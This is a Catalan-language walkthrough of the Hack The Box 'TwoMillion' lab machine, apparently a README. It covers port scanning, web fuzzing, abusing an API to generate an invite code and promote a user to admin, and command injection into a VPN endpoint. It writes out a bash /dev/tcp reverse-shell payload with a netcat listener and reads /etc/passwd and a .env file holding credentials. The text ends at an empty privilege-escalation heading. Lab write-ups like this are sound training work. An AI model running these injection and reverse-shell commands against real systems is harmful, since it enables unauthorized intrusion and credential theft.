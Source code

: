 <p align="center">
  <img src="https://github.com/user-attachments/assets/67d6ce83-549a-4d19-bf3f-9e20ff2fb6bb" alt="twomillion-htb-header" width="700" height="500">
</p>

---
## NMAP Scanning
Escaneig a través d'enviament de paquets TCP SYN a tots els ports del host per detectar quins estan oberts.
````bash
> nmap -p- --open -sS -v -n --min-rate=5000 -Pn -n 10.10.11.221

Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
           Raw packets sent: 65562 (2.885MB) | Rcvd: 65562 (2.622MB)
````
Amb els ports resultants de l'escaneig anterior, enumerar la versió i llençar els scripts per defecte de NMAP.
````bash
> nmap -sCV -p22,80 -Pn 10.10.11.221

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.88 seconds
````
Buscant la versió de SSH al launchpad d'Ubuntu ja es pot extreure que, segurament, el host té un Ubuntu Jammy. D'altra banda, sabem que s'està aplicant _Virtual Hosting_ i, per tant, s'ha d'afegir el domini 2million.htb a l'arxiu /etc/hosts per a que resolgui a la IP que pertoca.

## Web enumeration

````bash
> wfuzz -c -t 20 --hc=401,301 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://2million.htb/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://2million.htb/FUZZ
Total requests: 220545

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                          
=====================================================================

000000039:   200        80 L     232 W      3704 Ch     "login"                                                                                                                                          
000000024:   302        0 L      0 W        0 Ch        "home"                                                                                                                                           
000000051:   200        94 L     293 W      4527 Ch     "register"                                                                                                                                       
000001012:   401        0 L      0 W        0 Ch        "api"                                                                                                                                            
000001211:   302        0 L      0 W        0 Ch        "logout"                                                                                                                                         
000001545:   200        45 L     152 W      1674 Ch     "404"                                                                                                                                            
000007259:   200        45 L     152 W      1674 Ch     "0404"                                                                                                                                           
000007922:   200        96 L     285 W      3859 Ch     "invite" 
````
Els directoris que ens interessen són: _login_, _register_, _invite_ i _api_. De moment, no es pot fer res a cap d'aquests, ja que no disposem de credencials vàlides ni de codi d'invitació. Tanmateix, mirant el codi de la pàgina _/invite_ es veu un script de verificació del codi introduït que crida a l'endpoint de l'API _/api/v1/invite/verify_.
````javascript
        $(document).ready(function() {
            $('#verifyForm').submit(function(e) {
                e.preventDefault();

                var code = $('#code').val();
                var formData = { "code": code };

                $.ajax({
                    type: "POST",
                    dataType: "json",
                    data: formData,
                    url: '/api/v1/invite/verify',
                    success: function(response) {
                        if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                            // Store the invite code in localStorage
                            localStorage.setItem('inviteCode', code);

                            window.location.href = '/register';
                        } else {
                            alert("Invalid invite code. Please try again.");
                        }
                    },
                    error: function(response) {
                        alert("An error occurred. Please try again.");
                    }
                });
            });
        });
````
També es veu que executa un fitxer de JavaScript a la ruta _/js/inviteapi.min.js_, en el qual, a banda de l'endpoint _verify_, trobem un altre per generar un codi: _generate_. Per tant, es dedueix que per generar un codi hem de fer una petició a l'endpoint _/api/v1/invite/generate_. Tanmateix, una petició per GET retorna un codi d'error 405 dient que el mètode no està permès però provant la mateixa petició amb el mètode POST retorna un codi d'invitació en format base64.

![image](https://github.com/user-attachments/assets/66679475-d9e7-4814-bb84-b55a26a5eb52)

````bash
> echo "VVpXQ0ctWlBGVjQtTTI5Q1YtWUVRRjQ=" | base64 -d
UZWCG-ZPFV4-M29CV-YEQF4
````
I ja ens podem registrar :)

## Initial Foothold
Amb la sessió ja iniciada, una petició a la ruta _/api/v1_ retorna una descripció de totes les opcions de l'API i els mètodes que permet cadascuna.

![image](https://github.com/user-attachments/assets/8f03fde9-6a35-4fc3-bc35-0067bf07b33f)

Una d'aquestes és _/api/v1/admin/settings/update_, que mitjançant el mètode PUT permet actualitzar les dades d'un usuari, inclús si és administrador o no. Jugant amb les respostes que dóna cada petició, s'arriba a una petició final que permet convertir-nos en administrador.

![image](https://github.com/user-attachments/assets/dd5222fc-b315-4f4c-b39e-7ea8131c42e3)

I ara, si llancem una petició GET a _/api/v1/admin/auth_, veurem que som administradors.

![image](https://github.com/user-attachments/assets/519fa0c0-fed6-4a81-a761-639a71d25e8a)

Una altra opció de l'API és generar una VPN per a qualsevol usuari, a través de peticions POST. Com és un host Linux, es pot suposar que per darrere hi ha una execució de comandes a nivell de sistema per generar la VPN, així que es pot dur a terme una injecció de comandes si l'input no està sanititzat, de la següent forma:
````php
<?php sytem($_GET['VPN command ;command injection']); ?>
````
Així doncs, provem de ficar-nos en escolta per la interfície _tun0_ per rebre possibles traces ICMP i de fer un ping a la nostra màquina atacant per veure si aconseguim establir una connexió.
![image](https://github.com/user-attachments/assets/a4efc331-93da-4b3e-8527-b5ec2e403c00)
````bash
> sudo tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:30:56.547888 IP 2million.htb > 10.10.16.68: ICMP echo request, id 3, seq 1, length 64
13:30:56.547905 IP 10.10.16.68 > 2million.htb: ICMP echo reply, id 3, seq 1, length 64
````
I com veiem que hem rebut la traça de tornada, podem establir una reverse shell.

**- Atacant:** nc -lvnp 4321

**- POST data:** { "username":"admin;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.68/4321 0>&1'" }

![image](https://github.com/user-attachments/assets/5f5a966c-d81e-4de9-bc2e-cfd0c2e9a998)

Hem aconseguit una reverse shell com l'usuari _www-data_.

## User

Només hi ha 3 usuaris al host: _root_, _www-data_ i _admin_. Per aconseguir la flag d'usuari, hem de poder convertir-nos en l'usuari admin.
````bash
> cat /etc/passwd | grep 'sh$'

root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
````
En el directori on hi ha allotjada la web hi ha un arxiu ocult .env que té les credencials de la base de dades per l'usuari _admin_. Podem intentar autenticar-nos per SSH (per comoditat, ja que tindrem una consola amb millor experiència d'usuari) utilitzant aquestes credencials, per comprovar si hi ha hagut reutilització de contrasenyes.
````bash
> cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
````

I podem veure que sí que n'hi ha hagut.

![image](https://github.com/user-attachments/assets/fdea7bda-92d8-4fb7-87b4-f358cb8392ec)


## Privilege escalation
